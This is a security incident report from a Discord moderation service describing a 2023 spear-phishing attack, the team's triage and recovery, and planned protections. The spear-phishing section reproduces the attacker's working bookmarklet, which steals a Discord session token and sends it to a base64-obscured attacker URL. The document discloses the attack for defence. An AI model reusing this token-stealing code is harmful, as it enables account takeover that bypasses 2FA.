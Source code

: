 # 2023-05-29 Incident Report
## Summary
* One of our team member's Discord account was compromised via a spear phishing attack.
* 2FA was enabled, but the attack vector was able to bypass it.
* The attacker spammed scam messages on several of our clients' Discord servers.
* The attacker modified roles and permissions in at least one client's Discord server.
* We were able to kick the team member from all client Discord servers within about 15 minutes of the attack.
* We were able to delete the spam messages generated by the attacker almost immediately in servers where we have message delete permissions.
* We were able to identify how the attacker gained access and revoke it.

## Spear Phishing
The attacker reached out to all of our team members individually at different times making a reasonable sounding request for moderation services in their Discord server.
The attacker claimed to be from Rarible and had a vanity Discord invite for a Rarible Discord server with a significant number of members.
The attacker's Discord server required verification (as is common across crypto Discord servers) which used a Discord integration to send the user to the attacker's website.
<details>
	<summary>Third Party Connection Request Image</summary>
	<img src="../images/attacker%20third%20party%20connection%20prompt.png" alt="third party connection request" width="400"/>
</details>

Upon authorizing, the victim was sent to ⚠️❗`https://asset-vulcan.com`❗⚠️ where the victim is instructed to complete the verification process by adding a bookmarklet and then opening discord in a browser window and clicking on the bookmarklet.

<details>
	<summary>Attacker Website Instructions Image</summary>
	<img src='../images/attacker%20website%20instructions.png' alt='attacker website instructions' width='600'/>
</details>

<details>
	<summary>Bookmarklet contents (formatted for readability)</summary>

```js
javascript: ! function() {
	if ('https://discord.com' !== this.document.location.origin) {
		alert('Drag this button to your bookmark and go to discord.com to get verified.')
	} else {
		location.reload()
		var i = document.createElement('iframe')
		document.body.appendChild(i)
		var token = i.contentWindow.localStorage.token
		token = token.replaceAll(atob('Ig=='),'')
		location.href = atob('aHR0cHM6Ly9hc3NldC12dWxjYW4uY29tL2FwaS92ZXJpZnk/ZGF0PQ==') + token
	}
}()
```
</details>
As soon as the victim follows these instructions, their logged in session token will be sent to the attacker.
The attacker will then be able to utilize that session (which already has gone through 2FA) to interact with Discord as that user.

## Triage
Our team strives to have at least 2 people on duty at all times, which paid off in this case because as soon as the attacker started spamming it was immediately noticed by another team member who was on shift.
Upon seeing the spammer, the team member deleted the spam messages they could, warned users to ignore the ones they couldn't, and alerted the Serv.eth founder (Micah Zoltu) of the issue (all within a minute of the spam commencing).
Upon receiving notification of the issue, our founder immediately began revoking all roles the compromised account had in all of our client's servers that our founder had access to do so in (most of them).
After this was complete, we realized that there was still a risk that the attacker may have sent direct messages to server members and so to further mitigate potential damage, the victim's account was then kicked from all of our client's discord servers.
The whole process took just under 15 minutes from time of compromise to being kicked from all servers.

## Recovery
Upon completion of the initial triage, we alerted all of our clients of the compromise in private channels within their respective Discord servers.
We were also able to establish contact with the victim and have them revoke all of their sessions, thus removing the attacker's access.

<details>
	<summary>How to Revoke All Sessions in Discord</summary>
	<img src='../images/revokee%20attacker%20access.png' alt='how to revoke all Discord sessions' width='600'/>
</details>

We then looked through the audit logs of all client discord servers where we have permission to do so and verified that the attacker didn't do anything other than spam.
There was one client's Discord server where the attacker removed some roles from users and adjusted channel permissions which had to be undone.
After reviewing the audit log, we then reviewed our team's permissions in servers where we have access to do so and removed "Manage Roles" permission from all except our founder where appropriate so any future compromise has limited damage.

## Future Protection
While our team is quite familiar with various scams and attacks in the crypto space since we deal with it daily, this one was novel in that it was targeted specifically at moderators and it utilized a bookmarklet as a novel delivery mechanism.
Our internal policy already requires 2FA for all of our members to help limit the chances of this sort of thing occurring, but unfortunately this attack vector is able to bypass 2FA requirements.
The primary thing we will be doing internally to limit the chance of this happening again is additional training both on the specifics of this attack (bookmarklets) as well as general best practices of not doing anything that is out of the ordinary.

For our clients, we recommend reviewing all permissions and ensuring only necessary permissions are given whenever possible.
In this case, our team had "Manage Roles" permission in several servers which wasn't something that everyone needed (only one of us needs to be able to add/remove team members) and in one server this permission was leveraged to make the attack worse.
In many of our client servers we do need kick/ban permissions in order to be able to help manage spammers/scammers, but luckily the attacker didn't appear to leverage this permission during the attack.

We also will continue to strive to always have multiple people on-shift at a time to ensure we can respond quickly to situations like this, as well as making sure there is a way to quickly escalate to our founder who has additional permissions in most servers so they can kick any of our team's compromised accounts should this happen again.